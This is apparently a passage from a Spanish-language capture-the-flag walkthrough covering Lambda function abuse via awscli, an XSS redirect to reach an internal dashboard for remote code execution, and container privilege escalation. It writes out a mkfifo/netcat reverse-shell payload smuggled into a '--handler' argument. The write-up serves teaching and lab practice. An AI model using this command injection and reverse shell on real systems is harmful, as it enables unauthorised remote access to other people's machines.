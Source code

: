 El siguiente paso fue usar `awscli` para interactuar con la API y asi crear mi funcion lambda.

![0](https://user-images.githubusercontent.com/69093629/162548887-87615e4f-c452-4034-b658-bf520ac56df8.png) 

Se me creo mi funcion lambda pero tenia que invocarla, para ello use el parametro `invoke` especificandole `function-name` y exportando el resultado en un archivo llamado `output`.

![0](https://user-images.githubusercontent.com/69093629/162548957-73e9d679-a8a5-49fc-b4b4-ef37401a9ced.png)

### RCE

La ejecucion remota de comandos solo se acontecia si el usuario visitaba el `dashboard`, en el archivo `docker-compose.yml` vi que este podria estar montado en `http://127.0.0.1:8080/` pero yo no tenia acceso a el externamente, por lo que aproveche el XSS para redirigir el usuario con el objeto `document.location`.

![0](https://user-images.githubusercontent.com/69093629/162549411-2edc91d7-7d62-4a61-9019-ca3bd11290f1.png)

Un tiempo despues recibi una peticion GET a mi servidor.

![0](https://user-images.githubusercontent.com/69093629/162549109-72c7e9a8-04e1-4ff1-aaff-2c8c83b68a8e.png)

Ya tenia ejecucion remote de comandos, ahora solo me faltaba ganar acceso a la maquina, para ello concatene un Shell inverso con `mkfifo`.

![0](https://user-images.githubusercontent.com/69093629/162549320-3291c746-de1a-4597-98ea-7b48e42bde57.png)

Invoque la funcion, redirigi al usuario y gane una shell en un contenedor.

![0](https://user-images.githubusercontent.com/69093629/162549540-b85922a2-7f19-4cba-a367-6308123a7dab.png)

### user.txt

Ya podia visualizar la *flag* del usuario.

![usetxt](https://user-images.githubusercontent.com/69093629/162549771-afb6a3bf-1c50-4db6-980a-78a9af2799aa.png)

### ESCALADA DE PRIVILEGIOS

Para la escalada de privilegios me transferi `pspy64` y vi las tareas que se ejecutaban a intervalos regulares de tiempo.

Vi que se ejecutaba docker concatenando el parametro `--handler` a la hora de crear la funcion lambda, por lo que si creaba mi funcion añadiendo `$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.59 443 >/tmp/f)` era muy probable que me ejecutara el comando y ganase acceso como `root` por netcat en el contenendor.

![shellcomorootencontentedor](https://user-images.githubusercontent.com/69093629/162550680-a2f79325-d58c-4443-9d8f-0e2f3d6bfc86.png)

Ahora podia ejecutar el comando `docker` con sudo, me dirigi a `gtfobins`. 

![Captura de pantalla (28)](https://user-images.githubusercontent.com/69093629/162550803-31a19264-9028-4e15-9b6d-b353e12a5618.png)
